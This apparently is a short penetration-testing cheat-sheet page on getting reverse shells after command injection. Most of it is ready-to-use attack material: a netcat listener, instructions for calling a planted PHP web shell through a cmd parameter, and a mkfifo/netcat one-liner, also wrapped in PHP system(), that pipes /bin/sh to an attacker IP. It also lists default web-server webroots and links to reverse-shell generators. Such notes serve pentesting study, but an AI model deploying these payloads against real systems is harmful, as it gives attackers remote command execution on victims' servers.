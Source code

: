 # Reverse Shells

### Command injection&#x20;

To be able to execute the reverse shell we first need to be able to inject commands:

{% content-ref url="../techniques/command-injection.md" %}
[command-injection.md](../techniques/command-injection.md)
{% endcontent-ref %}

***

<details>

<summary>Default Webroot for common web servers</summary>

```
Apache    /var/www/html/
Nginx     /usr/local/nginx/html/
IIS       C:\inetpub\wwwroot\
XAMPP     C:\xampp\htdocs\
```

</details>

<details>

<summary>Accessing the reverse shell</summary>

```bash
#Listening for the reverse shell with netcat
nc -lnvp Port

#Once the malicious shell script is passed to the victim:
 ##In the browser
http://server_ip:port/shellScript.php?cmd=your_command_here

 ##Directly from the terminal
curl http://server_ip:port/shellScript.php?cmd=your_command_here

```

</details>

***

### Scripts

<details>

<summary>PHP</summary>

<pre class="language-php"><code class="lang-php">#Get netcat reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc attackIP ListeningPort) >/tmp/f
<strong> ##Adapted for PHP
</strong>&#x3C;?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc attackerIP listeningPort >/tmp/f"); ?>

</code></pre>

</details>

***

### Online shell lists/generators

#### Revshells

{% embed url="https://www.revshells.com/" %}
Revshells
{% endembed %}

#### PayloadAllTheThings/Reverse

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}
PayloadAllTheThings
{% endembed %}
